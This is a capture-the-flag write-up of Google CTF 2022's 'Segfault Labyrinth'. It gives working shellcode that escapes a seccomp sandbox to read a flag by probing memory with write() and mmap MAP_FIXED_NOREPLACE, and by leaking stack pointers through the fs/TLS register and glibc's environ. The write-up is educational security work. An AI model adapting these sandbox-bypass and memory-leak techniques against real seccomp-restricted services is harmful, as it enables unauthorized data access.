




# Segfault Labyrinth

This challenge was part of the 'Misc' category at the Google CTF 2022 (during July 2-3, 2022).
It was solved [The Maccabees](https://ctftime.org/team/60231) team.

Full solution is available [here](solution/) (run `compile_shellcode.sh` in `shellcode/` in order to build the shellcode; then you can use `solve.py` to send it to the server).


## The Challenge

The challenge description:



The attachment contains a single ELF file:

```bash
$ file challenge 
challenge: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3856695e67832f4fa9615d7c5e153058793f78f7, for GNU/Linux 3.2.0, stripped
```

Let's get into what the challenge does, in high-level (a bit of reversing is needed - but nothing too fancy):

1. The program begins by building the "labyrinth" in memory (we'll get into what is it exactly later), which contains the flag.
2. Later, it sets up a `seccomp-bpf` filter (in order to "sandbox" any code that runs afterwards).
3. Finally, it reads a shellcode from the user, allocates memory for it and branches to the shellcode (while clearing the content of all the registers).

Our goal: send to the server a shellcode that will extract the flag from the "labyrinth", constrained by the seccomp limitations.


### The "Labyrinth"

The "labyrinth" looks something like that:



Let us explain:

1. All the memory addresses are allocated using `mmap` and `rand` combination - making sure each allocation address is completely random and disconnected from the others.
2. The labyrinth is made out of 10 "nodes" (each allocated at its own random page).
   Each node contains 16 pointers. 15 of those pointers point to an allocated page with `PROT_NONE` protection (which means that any access to is - will *segfault* the program 😉, because it is neither readable nor writable).
   The remaining pointer (which its offset inside the node is random, of course) points to another node just like we described.
3. After 10 nodes - in the last node, the valid pointer points to a memory area (which is readable/writable) and contains the flag.
4. The start of the labyrinth (pointer to the first node) is given to our shellcode as its only argument.

So the challenge is pretty obvious: given the start of the labyrinth, we must find a way to "navigate" the correct pointers in order to reach (and read) the flag.

But what are our limitations?


### The `seccomp-bpf` filter

By running the program with a simple "while true" shellcode (`EB FE` FTW), we can examine the installed seccomp filter using `seccomp-tools dump -p $(pidof challenge)`. We get the following output:

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x0000000b  if (A != munmap) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x00000005  if (A != fstat) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x15 0x00 0x01 0x00000004  if (A != stat) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0022
 0021: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0022: 0x06 0x00 0x00 0x00000000  return KILL
```

Or, simply translating:

1. Disallow non-`x86_64` syscalls.
2. Allow only the following syscalls (without any argument constraints):
   1. `rt_sigreturn`
   2. `exit_group` / `exit`
   3. `read` / `write`
   4. `stat` / `fstat`
   5. `mmap` / `munmap`
3. Any violation kills the program.

This gives us only about 9 syscalls to work with. We'll see that this is more than enough 🤩


### The shellcode

A single page is allocated for our shellcode (using `mmap`) with RWX protection. When copying our input shellcode to this page, the program first copies the following shellcode, which will run first:

```assembly
xor     rax, rax
xor     rcx, rcx
xor     rdx, rdx
xor     rbx, rbx
xor     rsi, rsi
xor     rsp, rsp
xor     rbp, rbp
xor     r8, r8
xor     r9, r9
xor     r10, r10
xor     r11, r11
xor     r12, r12
xor     r13, r13
xor     r14, r14
xor     r15, r15
```

This makes sure that no general information about the program is available to us through registers (`rsp` for example), other than `rdi` (which is the labyrinth base).


## Basic solution

As we saw, we get the base of the labyrinth as the first argument for our shellcode (`rdi`). Traversing the labyrinth itself should be easy, but the only problem is to be able to differentiate between the invalid pointers (which will cause us to fault) and the valid pointers.

So, the only thing that we actually need is some kind of "probe" functionality - an "oracle" that will be able to tell us whether a pointer points to a memory area that is readable or not.


### Probing for access

`read`/`write` syscalls to the rescue! Using `read`/`write`, we can create the "probe oracle" we talked about.

How so? Let's take `write` as an example (this is similarly true with `read`, but for write-access instead of read-access). From `man 2 write`:

```
NAME
       write - write to a file descriptor

SYNOPSIS
       #include <unistd.h>

       ssize_t write(int fd, const void *buf, size_t count);

DESCRIPTION
       write()  writes  up to count bytes from the buffer starting at buf to the file referred to
       by the file descriptor fd.

...

ERRORS
...
       EFAULT buf is outside your accessible address space.

```

The `write` syscall gets a memory buffer (a pointer) `buf` as the second argument. `count` bytes are read from this pointer, and then written to the file descriptor.

In the case the pointer that `buf` is not readable (or not mapped) - the `write` syscall returns an error, with `errno` set to `EFAULT`.

This allows us to use `write` as a readability-probe! We just use `write` with some `fd` (assume `1` - which is `stdout`), give the pointer we want to check (and set `count` to `1`).

(I actually found out while writing this write-up that there is a stackoverflow article about that: [stackoverflow: How to test if an address is readable in linux userspace app](https://stackoverflow.com/questions/7134590/how-to-test-if-an-address-is-readable-in-linux-userspace-app) which proposes this exact solution).


### Traversing the labyrinth

So, using this `write`-probe, it is actually very simple for us to write the shellcode that solves the challenge. We wrote the solution in C (because we are lazy 😋) using our usual "shellcode in C" infrastructure (understanding what we're doing there is left as an exercise for the reader - check out the full solution on github). Just notice that `syscall_func` calls a raw syscall, just like [`syscall(2)`](https://man7.org/linux/man-pages/man2/syscall.2.html) does.

So our C code that solves the challenge ([full file](solution/shellcode/basic/solution.c))

```c
// The struct created by the challenge
// Contains 16 pointers - only 1 of them is to a readable page
typedef struct maze_node
{
    void * pointers[16];
} maze_node_t;

// Entry point of the shellcode
int _start(void * initial_struct_pointer)
{
    // Iterate over the maze, find the valid pointer each time and continue
    maze_node_t * current_node = (maze_node_t * ) initial_struct_pointer;
    for (size_t node_index = 0; node_index < 10; node_index++)
    {
        // Find which pointer is valid
        void * valid_pointer = NULL;
        for (size_t pointer_index = 0; pointer_index < 16; ++pointer_index)
        {
            // Probe for pointer (we'll fail with -EFAULT in case the pointer is mapped with PROT_NONE)
            void * current_pointer = current_node->pointers[pointer_index];
            if (syscall_func(__NR_write, STDOUT_FILENO, current_pointer, 1) == 1)
            {
                valid_pointer = current_pointer;
                break;
            }
        }

        // Not found any valid pointer - edge case (shouldn't happen)
        if (valid_pointer == NULL)
        {
            syscall_func(__NR_exit, 1);
        }

        // Next node
        current_node = (maze_node_t *) valid_pointer;
    }

    // Write the flag to stdout, and exit!
    syscall_func(__NR_write, STDOUT_FILENO, current_node, 90);
    syscall_func(__NR_exit, 0);
}
```


### Fixing the stack

One little thing that we might have overlooked: before our shellcode starts, `xor rsp, rsp` is zeroing out our stack-pointer, which means our shellcode don't have a stack anymore (which might be annoying, because our shellcode is compiled from C and probably uses the stack).

This is easy to fix, as our current page is RWX. So we can just prepend to the start of our shellcode the byte-sequence `"\x48\x8D\x25\xF0\x0C\x00\x00"`, which is the instruction `lea rsp,[rip+0xcf0]`.

This puts `rsp` near the end of the current page, which gives us plenty of room for a new stack to use during the execution of our shellcode.


### Getting the flag

That's it! Sending our shellcode to the server (215-bytes) gives us the flag: `CTF{c0ngratulat1ons_oN_m4k1nG_1t_thr0uGh_th3_l4Byr1nth}`.


## Hard mode

The above solution was pretty easy & trivial, so we thought maybe we could make it more interesting (notice: this is just a thought experiment; the actual challenge didn't go this far to add more constraints and limitations).

So, let's add another "hard mode" constraint: the first instruction of our shellcode must be `xor rdi, rdi`. This practically means that we don't get any arguments, and so we don't know in advance the base of the labyrinth.

What do we do now?


### The strategy

Using our beloved `mmap` syscall, we will create a technique that will allow us to do the following:

1. Find the lowest allocated address in the process (we'll see how in a bit).
2. Probe this address for readability (using `write` - just like we did before).
3. If it is readable, start reading from it, and if the memory contents there start with `"CTF{"` - this is the flag!
4. Otherwise - unmap (using `munmap`) the address, and go back in a loop to step #1.

This potentially will allow us to find the flag, without even knowing what is the structure or contents of the labyrinth itself!


To get intuition on why this have high chances of working, a little (partial) snippet from the procfs maps (`/proc/<pid>/maps`) of the challenge process after generating the labyrinth:

```
216232b000-216232c000 rwxp 00000000 00:00 0 
2901d92000-2901d93000 ---p 00000000 00:00 0 
5072377000-5072378000 ---p 00000000 00:00 0 
6b94774000-6b94775000 ---p 00000000 00:00 0 
8138651000-8138652000 ---p 00000000 00:00 0 
836c41e000-836c41f000 ---p 00000000 00:00 0 
8edbdbb000-8edbdbc000 ---p 00000000 00:00 0 
8f2b16e000-8f2b16f000 ---p 00000000 00:00 0 
98a3158000-98a3159000 ---p 00000000 00:00 0 
a0382d5000-a0382d6000 ---p 00000000 00:00 0 
b03e0d6000-b03e0d7000 rwxp 00000000 00:00 0 
bf72b24000-bf72b25000 rwxp 00000000 00:00 0 
d34b6b8000-d34b6b9000 ---p 00000000 00:00 0 
ded7273000-ded7274000 ---p 00000000 00:00 0 
100f8fda000-100f8fdb000 ---p 00000000 00:00 0 
10233ca9000-10233caa000 ---p 00000000 00:00 0 
109cf93e000-109cf93f000 ---p 00000000 00:00 0 
11447b83000-11447b84000 ---p 00000000 00:00 0 
1190cdf7000-1190cdf8000 ---p 00000000 00:00 0 
12200864000-12200865000 ---p 00000000 00:00 0 
12e6860b000-12e6860c000 ---p 00000000 00:00 0 
1381824a000-1381824b000 ---p 00000000 00:00 0 
140e0f86000-140e0f87000 ---p 00000000 00:00 0 
15014adb000-15014adc000 rwxp 00000000 00:00 0 
153ea448000-153ea449000 ---p 00000000 00:00 0 
15b5af6c000-15b5af6d000 ---p 00000000 00:00 0 
168e122f000-168e1230000 ---p 00000000 00:00 0 
180115ce000-180115cf000 ---p 00000000 00:00 0 
189a76ab000-189a76ac000 ---p 00000000 00:00 0 
19495d0f000-19495d10000 ---p 00000000 00:00 0 
1a32235b000-1a32235c000 ---p 00000000 00:00 0 
1ba0270a000-1ba0270b000 ---p 00000000 00:00 0 
1befd7af000-1befd7b0000 ---p 00000000 00:00 0 
1cf10fe8000-1cf10fe9000 ---p 00000000 00:00 0 
1d4ed44b000-1d4ed44c000 ---p 00000000 00:00 0 
1dbabf10000-1dbabf11000 ---p 00000000 00:00 0 
1e7ff531000-1e7ff532000 ---p 00000000 00:00 0 
...
```

As you'll see - we'll find those allocations one-by-one, probe them for readability, and check for the flag.


### Controlling `mmap` allocation address

In order to be able to find the lowest-allocated address in the process, we'll use the `mmap` syscall. Let's take a quick look at the whopping 6 (!) arguments `mmap` gets (from  [`mmap(2)`](https://man7.org/linux/man-pages/man2/mmap.2.html) )):

```
NAME
       mmap, munmap - map or unmap files or devices into memory

SYNOPSIS
       #include <sys/mman.h>

       void *mmap(void *addr, size_t length, int prot, int flags,
                  int fd, off_t offset);
...

       If  addr is NULL, then the kernel chooses the (page-aligned) address at which to create the
       mapping; this is the most portable method of creating a new mapping.  If addr is not  NULL,
       then  the  kernel takes it as a hint about where to place the mapping; on Linux, the kernel
       will pick a nearby page boundary (but always above or  equal  to  the  value  specified  by
       /proc/sys/vm/mmap_min_addr)  and  attempt  to create the mapping there.  If another mapping
       already exists there, the kernel picks a new address that may or  may  not  depend  on  the
       hint.  The address of the new mapping is returned as the result of the call.
```

As stated above - usually, what we do when we want to allocate memory using `mmap` is to pass `NULL` at the `addr` argument (the first argument). This allows the kernel to choose the address for the allocation as it wishes. If we don't pass `NULL`, the kernel uses `addr` as a hint - but it still can allocate the new memory wherever it wants.

What if we want ensure the allocation will be exactly where we want? In order to accomplish that, we have the `MAP_FIXED` flag. From the manual:

```
       MAP_FIXED
              Don't  interpret  addr  as  a hint: place the mapping at exactly that address.
              ...
              If the
              memory region specified by addr and len overlaps pages of any  existing  mapping(s),
              then the overlapped part of the existing mapping(s) will be discarded.

```

`MAP_FIXED` allows us to to tell the kernel: don't use `addr` only as a hint - map exactly there. `MAP_FIXED` is useful for many scenarios, but need to be used carefully - as if there are already existing memory mappings where we want to `mmap` with `MAP_FIXED` - they will be forcefully removed (refer to `Using MAP_FIXED safely` in the manual 🤗).

In order to prevent such bugs, since Linux 4.17, we now have the `MAP_FIXED_NOREPLACE` flag!

       MAP_FIXED_NOREPLACE (since Linux 4.17)
              This  flag  provides  behavior that is similar to MAP_FIXED with respect to the addr
              enforcement, but differs in that MAP_FIXED_NOREPLACE never  clobbers  a  preexisting
              mapped  range.   If the requested range would collide with an existing mapping, then
              this call fails with the error EEXIST.
              ...
This is very similar to `MAP_FIXED`, but it fails with `EEXIST` in case there are already existing mapping in the area we try to map.

And look what we have here.. Using `mmap` with `MAP_FIXED_NOREPLACE`, we can easily create a oracle that, for a range of virtual addresses, checks if there are any allocations there. Sounds useful!

How it will look in our shellcode:

```c
// Check with 'mmap' and 'MAP_FIXED_NOREPLACE' whether some [address,address+size) range
// can be replaced (meaning: are there any allocations there?)
static int can_be_replaced(uintptr_t address, size_t size)
{
    int result = 1;
    void * mmap_res = (void *) syscall_func(__NR_mmap,
        (void *) address, size, PROT_NONE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED_NOREPLACE, -1, 0);
    if (mmap_res == (void *)(-EEXIST))
    {
        result = 0;
    }
    if (!IS_ERR_VALUE(mmap_res))
    {
        syscall_func(__NR_munmap, mmap_res, size);
    }
    return result;
}
```

(Notice we want to `munmap` the region if we succeeded, in order to prevent from creating side-effect on the process memory space).


### Binary search using `mmap`

Using `MAP_FIXED_NOREPLACE` (and yes, don't worry - I validated that the server is kernel 4.17+ and the flag is available), we can binary search the memory in order to find the lowest allocated address!

The algorithm will look something like that (classic binary search):

1. Start with `low=0x10000` (minimal address for mapping - because of [`mmap_min_addr`](https://wiki.debian.org/mmap_min_addr)) and `high=0x7ffffffff000` (maximal userspace address in 64-bit).
2. Calculate `mid=(low+high)/2`.
3. Check if the range `[low, mid)` has any allocations (using above `MAP_FIXED_NOREPLACE` technique).
   1. If it does - set `high=mid`.
   2. Otherwise - set `low=mid`.
4. Go to step 2 until convergence between `low` and `high`.

This will (very quickly) find the lowest allocated address in the address space!

How it looks in our final shellcode:

```c
#define MIN_ADDR (0x10000)
#define MAX_ADDR (0x7ffffffff000)

// Find the lowest address currently allocated in the address space
static uintptr_t find_lowest_allocated_addr(void)
{
    uintptr_t start_addr = MIN_ADDR;
    uintptr_t end_addr = MAX_ADDR;

    // Binary search
    while ((end_addr - start_addr) > PAGE_SIZE)
    {
        uintptr_t guess_addr = PAGE_ALIGN((start_addr + end_addr) / 2);

        size_t allocation_size = guess_addr - start_addr;
        if (!can_be_replaced(start_addr, allocation_size))
        {
            end_addr = guess_addr;
        }
        else
        {
            start_addr = guess_addr;
        }
    }

    // Check if we need to return "start_addr" or "end_addr"
    if (!can_be_replaced(start_addr, PAGE_SIZE))
    {
        return start_addr;
    }
    return end_addr;
}
```


### Putting it all together

Finally, the final logic that iterates over the memory regions we find and searches for the flag ([full file](solution/shellcode/hard/solution.c)):

```c
// HARD MODE: find the flag assuming 'xor rdi, rdi' is the first instruction (we don't know where is the maze).
int _start(void)
{
    // Iteratively: find the lowest allocated address, probe it for being readable, and check if it looks
    // like the start of the flag.
    while (1)
    {
        // Find lowest allocation
        uintptr_t lowest_addr = find_lowest_allocated_addr();

        // Probe for pointer (we'll fail with -EFAULT in case the pointer is mapped with PROT_NONE)
        if (syscall_func(__NR_write, STDOUT_FILENO, (void *) lowest_addr, 1) == 1)
        {
            char * readable_pointer = (char *) lowest_addr;

            // Check if we found the flag
            if ((readable_pointer[0] == 'C') && (readable_pointer[1] == 'T') && (readable_pointer[2] == 'F'))
            {
                // Flag found! Print and exit
                syscall_func(__NR_write, STDOUT_FILENO, readable_pointer, 90);
                syscall_func(__NR_exit, 1);
            }
        }

        // un-map and go again!
        syscall_func(__NR_munmap, lowest_addr, PAGE_SIZE);
    }

    // Bye-bye
    syscall_func(__NR_exit, 0);
}
```

Notice that on each iterations, if the lowest allocated memory address doesn't contain the flag - we unmap it (using `munmap`) in order to find the next one in the next iteration.

And very quickly, we get the flag from the server!


## Impossible mode ☠️

Well, that was cool. But let's make it even more interesting..

Introducing "impossible mode": the same as hard mode, but now we aren't allowed to use **any** syscalls at all (maybe only a single `write` syscall to `stdout` in order to show the flag 🤓).

Is it even possible?


### Thread-Local Storage (TLS) - to the rescue!

The Thread-Local storage, or the TLS for short, is a feature used in order to save information on a per-thread basis.

On Linux environments that use glibc, the TLS is usually accesses using the `fs` segment register (which is set-up during glibc initialization, to point inside the TLS area, which is inside glibc itself).
(You may know `fs:28h` as the offset in the TLS that stores the stack cookie).

And this is exactly the problem: the program tries to "isolate" our shellcode from the original binary by zeroing-out all registers (including `rsp` - the stack register) - but we can still access the TLS and gllibc memory using `fs`!

But how finding glibc will help us in finding the flag?


### Observation: the stack is messy

If we go back to the original challenge binary, we can observe an interesting fact: by examining closely the stack contents just before branching to our shellcode, we are surprised to see there are some "leftovers": at `[rsp-0x28]` (which is unallocated stack space) - we see there is a pointer to our flag!



We assume this is some unallocated-stack artifact that was left there after the `fread` call that read the flag.

Those are very news good to us, as it makes all the labyrinth stuff useless in hiding the flag - assuming we can find the stack and read from it this pointer.


### Environment (on the stack)

Using our pointer to `libc` using the TLS and the `fs` segment register, we can now traverse data saved in `libc` and extract it. But how do we find the stack in this way?

Luckily for us, the process environment is the answer! In Linux, during process initialization (after the kernel executes the `execve` syscall), the kernel passes information to the newly created process through the newly created stack. This information contains the arguments for the process (`argv`), something called auxiliary vectors (see  [`getauxval(3)`](https://man7.org/linux/man-pages/man3/getauxval.3.html)), and the process environment (`envp`).

One of my favorite articles about the subject is called [About ELF Auxiliary Vectors](http://articles.manugarg.com/aboutelfauxiliaryvectors.html) (recommended read!); let's take a look on the illustration from there:

 

On dynamically-linked executables, in addition to the actual ELF file being `execve`-ed, the dynamic linker (usually `ld`) is also loaded, and it is the one who is first being executed upon process initialization. `ld` is responsible for loading additional `.so` files, such as `libc.so`, and transfers some of the information to them - specifically, the process environment it got from the stack.

This is needed as `libc` got the [`getenv(3)`](https://man7.org/linux/man-pages/man3/getenv.3.html) API (which means it should have access to the environment). Specifically, `glibc` (GNU C Library - the one used here and on most desktop Linux distributions), saves a global variable called `environ` - which points to the environment at the bottom of the process stack. This is just we need! A place in `libc` which points to stack.


### Putting it all together

So, the grand plan to solve the challenge without using any syscalls:

1. Find `libc` from `fs` (usually - `fs:0` contains the base address of `fs` itself).
2. From there, find `environ` in `libc`, and thus the process stack.
3. Search the stack in order to find the pointer to the memory allocation containing the flag.
4. ???
5. PROFIT

Or, in assembly ([full file](solution/shellcode/impossible/solution.S)):

```assembly
#include <sys/syscall.h>
.intel_syntax noprefix
.global _start
_start:
    # Get 'fs' base
    mov r12, fs:0

    # Diff between TLS and environ - 0x3f40
    # Get a pointer to the stack from environ
    mov r12, [r12-0x3f40]

    # On the stack, there is a pointer that points to the flag
    # (Diff between environ and the flag - 0x240)
    mov r12, [r12-0x240]

    # Write flag to 'stdout'
    # (well, we must print it somehow)
    mov rdi, 1      # STDOUT
    mov rsi, r12    # flag pointer
    mov rdx, 128    # flag length
    mov rax, __NR_write
    syscall
```

Of course, theoretically, we don't know the `libc` version and offsets on the server - so we must develop something more complex that will use clever heuristics to deduce all the offsets.
But fortunately, the same shellcode that worked on our PC also worked successfully on the server - first try!

And we got the flag without using the labyrinth, and without syscalls at all! (expect, of course, the last `write` syscall - which is sadly a must for us to be able to send the flag back..)


## Conclusion

Overall, nice challenge. I think the base solution is rather simple, but discussing more elaborate (and challenging) variants of the challenge opened an opportunity to try far more interesting solutions 😎   

Shout-out for [Bronson113](https://bronson113.github.io/) - during the writing process for this write-up, I stumbled upon the excellent write-up he wrote about the same challenge, with a solution which inspired us to come up with the last solution we presented. [Check it out!](https://bronson113.github.io/2022/07/05/segfault-labyrinth-GoogleCTF2022.html)

See you next CTF!

~ **or523**

